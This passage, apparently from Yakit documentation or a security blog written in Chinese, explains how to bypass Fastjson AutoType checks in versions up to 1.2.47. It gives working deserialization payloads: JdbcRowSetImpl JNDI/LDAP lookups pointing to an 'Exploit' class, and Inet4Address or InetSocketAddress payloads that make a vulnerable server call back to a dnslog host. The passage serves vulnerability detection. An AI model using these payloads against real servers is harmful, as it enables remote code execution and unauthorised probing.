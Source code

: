 ![](/img/products/yakit/json-fastjson.png)

如图

AutoType关闭时，1.2.25 ~ 1.2.47版本都可以通过第二个payload绕过    
AutoType开启时，1.2.25 ~ 1.2.32版本由于会进入黑名单判断，所以要用第一个payload的绕过变形（通过类名前后加`L`、`;`绕过即可），1.2.32~1.2.47可以利用第二个payload绕

综上，在<=1.2.47的版本关闭AutoType的都可以用下面两种payload绕过

```JSON
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/badNameClass","autoCommit":true}}
```

开启AutoType的需要绕过黑名单

```Java
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl"[,,,{,,,"dataSourceName":"ldap://localhost:1399/Exploit", "autoCommit":true}
```


这两个payload通过jndi或rmi检测，检查dnslog反连，受jdk版本限制。同样的java.net.InetAddress也可以检查dnslog反连，且不受jdk版本、黑名单影响，而且在deserializers里自带，不需要绕过autotype，而且可以检查未开启AutoType的1.2.48之后的版本，所以最终payload如下，这就是大道至简吧，

```JSON
{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
// 还有一种畸形payload
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}
```

调试时发现在1.2.25后的版本，在checkAutoType中都有下面代码

![](/img/products/yakit/json-checkAutoType-1225.png)
